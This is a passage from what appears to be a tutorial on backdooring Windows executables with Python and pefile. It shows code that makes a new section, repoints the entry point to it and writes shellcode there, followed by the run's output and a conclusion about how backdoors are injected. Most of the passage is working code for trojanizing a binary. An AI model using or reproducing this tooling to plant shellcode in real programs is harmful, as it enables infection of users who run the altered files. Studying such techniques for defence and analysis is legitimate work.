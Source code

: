 ```python
pe.write(exe_path)

pe = pefile.PE(exe_path)
number_of_section = pe.FILE_HEADER.NumberOfSections
last_section = number_of_section - 1
new_ep = pe.sections[last_section].VirtualAddress
print "\t[+] New Entry Point = %s" % hex(pe.sections[last_section].VirtualAddress)
oep = pe.OPTIONAL_HEADER.AddressOfEntryPoint
print "\t[+] Original Entry Point = %s\n" % hex(pe.OPTIONAL_HEADER.AddressOfEntryPoint)
pe.OPTIONAL_HEADER.AddressOfEntryPoint = new_ep

# STEP 0x04 - Inject the Shellcode in the New Section
print "[*] STEP 0x04 - Inject the Shellcode in the New Section"

raw_offset = pe.sections[last_section].PointerToRawData
pe.set_bytes_at_offset(raw_offset, shellcode)
print "\t[+] Shellcode wrote in the new section"

pe.write(exe_path)
```

**Output**

```bash
[*] STEP 0x01 - Resize the Executable
	[+] Original Size = 531368
	[+] New Size = 539560 bytes

[*] STEP 0x02 - Add the New Section Header
	[+] Section Name = .axc    
	[+] Virtual Size = 0x1000
	[+] Virtual Offset = 0x84000
	[+] Raw Size = 0x1000
	[+] Raw Offset = 0x80000
	[+] Characteristics = 0xe0000020L

[*] STEP 0x03 - Modify the Main Headers
	[+] Number of Sections = 5
	[+] Size of Image = 544768 bytes
	[+] New Entry Point = 0x84000
	[+] Original Entry Point = 0x550f0

[*] STEP 0x04 - Inject the Shellcode in the New Section
	[+] Shellcode wrote in the new section
```

## Conclusion

That's all for now. As you can see, we can do really interesting things with Python, even inject code into executable. Of course, this example is not really stable nor dynamic, but it gives you a good grasp on how backdoors are injected into executables.
